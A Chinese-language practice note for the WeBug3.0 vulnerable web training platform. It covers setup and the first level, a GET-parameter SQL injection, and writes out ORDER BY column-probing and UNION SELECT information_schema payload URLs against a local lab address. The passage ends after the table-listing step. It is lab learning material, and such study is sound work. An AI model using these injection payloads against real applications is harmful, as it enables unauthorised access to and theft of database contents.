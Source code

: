 ```yaml
---
title: WeBug3.0练习笔记
description: 在webug3.0的测试平台上测试后所写的一些测试笔记
date: '2019-02-25T15:32:06.000Z'
---
```


# WeBug3.0练习笔记

## 下载部署

* WeBug3.0
  * 下载：[https://pan.baidu.com/s/1Cz\_H0GuudtuINGjSb0ZhPg](https://pan.baidu.com/s/1Cz_H0GuudtuINGjSb0ZhPg)  提取码: yug8

## 第一关-很简单的一个注入

> 普通的GET注入

### 方法一

#### 工具

* Firefox 48.0
* Firefox插件:
  * hackbar

#### 步骤

猜想当前表中列数

```text
// 失败:
  http://169.254.91.186/pentest/test/sqli/sqltamp.php?gid= 2'order by 5 %23

...

// 成功:
  http://169.254.91.186/pentest/test/sqli/sqltamp.php?gid= 2'order by 4 %23

// 结论：表中存在4列属性
```

获取表

```text
  http://169.254.91.186/pentest/test/sqli/sqltamp.php?gid=‘-1' union select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema = database() %23
```

![&#x83B7;&#x53D6;&#x8868;](../.gitbook/assets/1_1.png)
